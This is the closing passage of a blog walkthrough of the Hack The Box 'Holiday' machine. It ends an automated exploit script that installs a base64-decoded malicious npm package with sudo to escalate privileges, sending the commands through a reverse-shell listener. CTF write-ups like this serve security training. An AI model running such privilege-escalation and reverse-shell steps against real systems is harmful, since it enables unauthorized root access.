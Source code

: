 privescCommands = ["mkdir ./privescPackage","echo '" + packageJSON + "' | base64 -d > privescPackage/package.json","sudo npm i privescPackage --unsafe"]
listener(LHOST,int(LPORT),mutex=rsLock,commands=privescCommands)
{% endhighlight %}

We can save the code in the exploit in a file named "exploit.py" and execute it as demonstrated below to see the automated exploitation in action!

<video width="100%" controls="controls">
  <source src="/assets/{{ imgDir }}/demo.mp4" type="video/mp4">
</video>

# Further Reading
If you enojoyed this post, you might also like the post [Hack The Box - Holiday - Source Code Analysis]({% post_url 2021-10-30-HTB-Holiday-Source-Code-Analysis %}) where we perform a source code review of the host we targeted in this blog post.